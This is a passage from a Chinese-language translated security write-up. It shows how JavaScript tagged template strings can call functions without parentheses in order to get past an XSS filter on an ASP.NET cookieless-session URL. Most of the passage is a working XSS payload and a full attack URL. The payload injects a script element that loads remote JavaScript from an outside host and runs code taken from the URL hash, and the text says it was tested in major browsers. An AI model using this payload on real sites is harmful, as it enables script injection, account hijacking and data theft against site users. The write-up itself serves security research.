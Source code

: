 后一种语法叫带标签的模板字符串.``function`params` ``不会将params传入到函数的参数中，它仅仅使用函数修改模板字符串的参数。

(译者注，很难用语言解释这个概念，可以看下官方文档https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings#%E5%B8%A6%E6%A0%87%E7%AD%BE%E7%9A%84%E6%A8%A1%E6%9D%BF%E5%AD%97%E7%AC%A6%E4%B8%B2)


```
function whatsGoingOn()
{
	console.log(arguments);
}
whatsGoingOn`${1}`


>>> [ [""， ""]， 1 ]
```

结果中，数组的第一个参数是围绕js表达式的字符串，确认一下:

```
whatsGoingOn`LEFT${5-1}RIGHT`
>>> [ ["LEFT"， "RIGHT"]， 4 ]
```

这对我们来说是个好消息，JavaScript提供了一个执行代码的方法.如下所示:

```
new Function(["whatever"，"whatever"]，"alert(1)")()
\\等效于
var test = "alert(1)";
new Function`whatever${test}whatever`
```

现在我们要做的只是调用与`headEl.appendChild(js)`等效的方法.但是我们仍然不能使用括号。

我们为什么要关心呢?让我们把`headEl.appendChild(js)`放在URI的hash中，比如`http://localhost/A/B/C/default.aspx#headEl.appendChild(js)`，然后调用`new Function`上的`document.location.hash`。

还需要摆脱`#`号，可以这样``document.location.hash.substr`1` ``，最终payload!!!

```
js = document.createElement`script`;
js.src=`${String.fromCharCode`47`}${String.fromCharCode`47`}blog.isec.pl${String.fromCharCode`47`}XSS.JS`;
headEl=document.getElementsByTagName`head`[0];
new Function`X${document.location.hash.substr`1`}X`;

/*

http://localhost/A/B/C/(A(%22onerror=%22js=document.createElement`script`;js.src=`${String.fromCharCode`47`}${String.fromCharCode`47`}eval${String.fromCharCode`47`}XSS.JS`;headEl=document.getElementsByTagName`head`[0];new%20Function`X${document.location.hash.substr`1`}X`%22))/default.aspx#headEl.appendChild(js)

*/
```

已在所有主流浏览器(Firefox，Chrome，Edge)上测试这个漏洞。
